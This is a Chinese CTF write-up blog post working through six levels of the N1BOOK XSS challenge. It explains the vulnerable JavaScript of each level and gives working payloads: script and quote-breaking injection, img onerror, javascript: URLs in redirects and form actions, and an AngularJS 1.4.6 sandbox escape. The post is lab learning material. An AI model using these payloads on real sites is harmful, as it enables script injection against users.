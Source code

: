 ```yaml
---
title: N1BOOK of web XSS闯关 writeup
date: 2022-04-13 14:07:00
updated: 2022-04-13 16:04:00
tags: [ctf,security,<<从0到1：CTFer成长之路>>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录 N1BOOK of web 死亡ping命令 writeupcahttps://blog.csdn.net/qq_45414878/article/details/109672659
---
```


## Level 1

```
/level1?username=<script>alert()<script>
```

最简单的反射型xss 在url传参中做利用。

官方wp中给出的`/level1?username=xss%3Csvg/onload=alert()`看不懂而且我也没法用这个payload打通...挺迷的，大概意思应该是插入一个svg，然后在svg里面写个onload事件触发alert吧。

## Level 2

还是先尝试一下最简单的xss，发现不行，然后查看一下源码

```javascript

    	if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = 'xss';
    	document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
    
```

传入的username参数被escape函数编码了，escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。 该方法不会对ASCII 字母和数字进行编码，也不会对下面这些ASCII 标点符号进行编码： * @ - _ + . / 。 其他所有的字符都会被转义序列替换。

escape把字符串编码后，那就不会把传入内容直接当js执行了，所以说之前的办法行不通，但是不代表不能XSS，这里漏洞产生的原因是username这个js中的变量受用户直接控制且只有escape这个编码过滤，我们传入`?username=';</script><script>alert()</script>//`，这样js会执行

```javascript
<script type="text/javascript">
var username = '';</script><script>alert()</script>//';
</script>
```

先用一个引号闭合username，然后再用一个`</script>`和前面的`<script>`闭合，后面插入script标签就可以执行任意js函数了。

官方解法是`?username='-alert()`，其实差不多的解法，但是不太懂`-`是什么意思，不过把`-`换成`;`后也可以打通。

## Level 3

```js

    	if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = 'xss';
    	document.getElementById('ccc').innerHTML= "Welcome " + username;
    
```

这里把escape取消了其他啥也没变？？

我用我自己Level 2中的payload也可以成功打通，但是level 2官方的payload在level 3中不适用，这个没搞懂为啥。

因为把escape取消了所以下面innerHTML中的拼接也有了可以利用的地方，这里可以插入一些html中的标签来达成xss的效果。

官方wp中插入了img标签，学习一下他的做法，`?username=xss<img src=x onerror=alert()>`其实是一种利用img标签的onerror属性进行xss的常见做法。

onerror是一个js事件，当图片不存在时会触发，所以只要src属性找不到对应图片，写在onerror中的js语句就可以得以执行。

## Level 4

```js

    	var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
    
```

这里也比较明显，接收jumpUrl参数，并且将参数拼接进innerHTML，导致xss注入

但是这里jumpUrl有escape字符串编码再拼接进去，所以这里的利用需要使用javascript伪协议来执行，由于这里有url跳转，传入参数会被拼在url里面，在浏览器打开javascript：URL的时候，它会先运行URL中的代码，当返回值不为undefined的时候，前页链接会替换为这段代码的返回值，payload：`?jumpUrl=javascript:alert()`

## Level 5

```js

    	if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{
    		
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
    
```

发现代码首先接收get请求参数autosubmit，如果不是false就继续执行，然后接收get请求参数action，如果接收到action参数就读action参数并且提交表单，利用javascript伪协议可以在提交的表单中执行任意js代码。

payload：`?action=javascript:alert()&autosubmit=1`

## Level 6

>参考：
>
>https://juejin.cn/post/6891628594725847047
>
>http://www.mdlabs.cn/index.php/2022/04/01/buuctf-n1book-xss%E9%97%AF%E5%85%B31-%E3%80%90xss%E5%B0%8F%E7%BB%93%E3%80%91/

这个题目比较复杂，首先是源代码里面直接看js是看不出来什么的，这里要利用Angular.js的模板注入来逃逸沙箱，达成XSS漏洞的利用。

先判断存在angular模板注入

![image-20220413155408133](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220413155408133.png)

![image-20220413155324232](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220413155324232.png)

只从做题的角度来看的话，找一下angular 1.4.6的payload，直接就打通了

从https://juejin.cn/post/6891628594725847047#heading-8中，payload

```
?username={{x={y:''.constructor.prototype}; x.y.charAt=[].join; [1]|orderBy:'x=alert(1)}}'
```

直接打通，flag到手啦

然后我们来研究一下AngularJS的模板注入，主要看这篇文章https://juejin.cn/post/6891628594725847047#heading-8

真看不懂....麻了，找个时间认真研究一下吧



